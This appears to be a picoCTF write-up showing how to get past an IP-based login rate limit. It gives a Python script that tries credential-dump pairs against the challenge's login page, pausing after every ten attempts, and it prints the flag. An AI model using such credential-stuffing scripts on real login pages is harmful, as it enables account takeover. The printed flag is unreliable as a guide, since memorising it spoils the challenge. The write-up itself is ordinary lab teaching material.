

## Description:
Your friend is building a simple website with a login page. To stop brute forcing and credential stuffing, they’ve added an IP-based rate limit: exceed the attempt threshold and your IP is blocked for a while. They’re convinced this makes guessing credentials impossible. 
To test their defense, they’ve:
•	Created a dummy account with a random username–password pair from public credential lists.
•	Given you those username and password lists.
•	Shared the full source code.
Can you bypass the rate limit, log in, and capture the flag?

## Solution:
1. From the source code, each IP address is allowed 10 failed attempts in 30 seconds before being locked out for 120 seconds. I tried changing the source IP address using the `X-Forwarded-For` header but it did not work. 
2. I wrote a Python script to send 9 requests then sleep for 31 seconds before sending another 9 requests.
   
```
import requests
import time

url = "http://candy-mountain.picoctf.net:56894/login"

i = 0
with open("creds-dump.txt", "r") as creds_file:
    for line in creds_file:
        uname, pw = line.strip().split(";")

        data = {
            "username": uname,
            "password": pw
        }

        r = requests.post(url, data=data)
        print("Tried:", uname, " + ", pw)
        if "invalid" not in r.text.lower():
            print(r.text)
            break
        i += 1

        if (i+1) % 10 == 0:
            print("Sleeping...")
            time.sleep(31)  
```
3. Using this script, I found the flag in the HTTP response received. <br>


## Flag:
picoCTF{f00l_7h4t_l1m1t3r_6f501f28}
